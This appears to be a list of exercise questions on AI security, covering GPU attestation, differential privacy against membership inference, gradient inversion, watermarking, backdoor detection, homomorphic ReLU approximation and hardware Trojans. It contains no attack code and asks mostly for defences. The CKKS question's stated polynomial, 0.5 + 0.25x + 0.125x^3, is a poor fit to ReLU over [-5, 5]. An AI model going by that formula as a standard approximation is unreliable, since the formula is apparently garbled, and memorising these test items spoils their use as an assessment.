Explain the NVIDIA H100 Confidential Computing attestation flow. A tenant wants to verify that their model is running on a genuine, unmodified H100 before uploading encrypted weights. List the cryptographic artifacts exchanged, the certificate chain, and the properties that the attestation guarantees.
-
A membership inference attack achieves 65% accuracy (versus 50% random chance baseline) on a model trained without DP-SGD. Repeat the attack on a model trained with \(\epsilon = 2\) DP-SGD. Explain theoretically why DP-SGD limits membership inference, and derive an upper bound on membership inference advantage \(A = P(\text{attack correct}) - 0.5\) in terms of \(\epsilon\) and \(\delta\).
-
The Cerebras WSE-3 stores all model weights on-chip in 44 GB SRAM, eliminating the need for HBM memory. Explain how this architecture changes the threat model for model weight extraction attacks compared to a GPU with HBM3 memory attached via a chip-to-chip interface.
-
A gradient inversion attack (GradInvert) reconstructs a 224x224x3 input image from the gradient of a ResNet-50 trained on ImageNet. The gradient has 25,557,032 floating-point values. Propose a hardware-level defence (implemented in the FL aggregation server’s secure enclave) that makes gradient inversion computationally infeasible without degrading model convergence.
-
Design a neural network watermarking scheme using the white-box approach. The model has 10 million parameters (FP32). The watermark is a 256-bit secret. Describe: (a) how to embed the watermark without changing model accuracy by more than 0.1%, (b) the extraction algorithm, (c) the statistical test for ownership verification, and (d) potential attacks against the watermark.
-
Compare AES-256-GCM encryption of model weights versus using Intel TDX + NVIDIA H100 Confidential Computing for protecting proprietary model weights during inference. Analyse: (a) key management complexity, (b) performance overhead, (c) attack surface exposed to the cloud provider, (d) what an adversarial cloud provider can and cannot access in each scheme.
-
A BadNets backdoor attack poisons 5% of a 100,000-sample training set with a 5x5 trigger pattern targeting class 0. The model achieves 99% clean accuracy and 99.8% attack success rate. Describe the Activation Clustering (AC) defence: what features are analysed, what statistical test is used to identify poisoned samples, and what is the expected false positive rate on clean samples.
-
Homomorphic inference using CKKS requires polynomial approximation of ReLU. A common approximation is \(f(x) \approx 0.5 + 0.25x + 0.125x^3\) (degree-3 polynomial fit over \([-5, 5]\)). Calculate the maximum approximation error \(|f(x) - \text{ReLU}(x)|\) at \(x = 3\) and \(x = -3\), and explain why this error accumulates across layers and affects model accuracy in HE inference.
-
A supply chain attacker inserts a hardware Trojan in a neural network inference ASIC during the GDSII layout stage. The Trojan targets the quantised INT8 weight registers and flips bit 7 (MSB) of three specific weight values when the trigger activates. Propose three post-fabrication test strategies (beyond functional test) to detect this Trojan.